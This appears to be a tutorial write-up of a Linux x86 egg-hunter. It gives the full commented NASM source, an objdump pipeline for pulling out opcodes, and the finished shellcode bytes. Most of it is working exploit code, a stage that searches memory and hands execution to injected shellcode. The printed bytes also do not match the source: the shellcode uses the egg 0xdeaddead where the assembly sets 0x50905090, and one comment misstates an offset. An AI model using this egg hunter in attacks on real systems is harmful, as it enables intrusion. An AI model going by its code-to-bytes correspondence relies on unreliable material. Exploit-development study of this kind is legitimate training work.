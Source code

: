 ## Completed Assembly Code 

```nasm
global_start

section .text
_start:
  
mov ebx, 0x50905090	; here, we're just going to store a 4 byte value in $ebx as our egg
xor ecx, ecx		
mul ecx

page_forward:		; here, we're going to design a function of what to do if we get an EFAULT error
or dx, 0xfff		; doing a bitwise logical OR against the $dx value

address_check:		; here we're going to design a function to check the next 8 bytes of mem
inc edx			; gets $edx to a nice multiple of 4096
pushad			; this will preserve our register values by pushing them onto a stack while we syscall
lea ebx, [edx+4]	; putting edx plus 8 to check if this fresh page is readable by us
mov al, 0x21		; syscall for access(), we know this by now :)
int 0x80

cmp al, 0xf2		; does the low-end of $eax equal 0xf2? In other words, did we get an EFAULT? 
popad			; restore our register values we preserved
jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

cmp [edx], ebx		; is what is stored at the address of $edx our egg (0x50905090) ?
jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg

cmp [edx+4], ebx	; we found our egg once, let's see if it's also in $edx + 4
jnz address_check	; we found it once but not twice, have to keep looking

jmp edx			; we found it twice! go to edx (where our egg is) and execute the code there! 
```

## Shellcode

To get our shellcode, we can run this nifty command `objdump -d ./<PROGRAM>|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'`

Our shellcode is: 
```terminal_session
\xbb\xad\xde\xad\xde\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2
```

Looks to be null free!
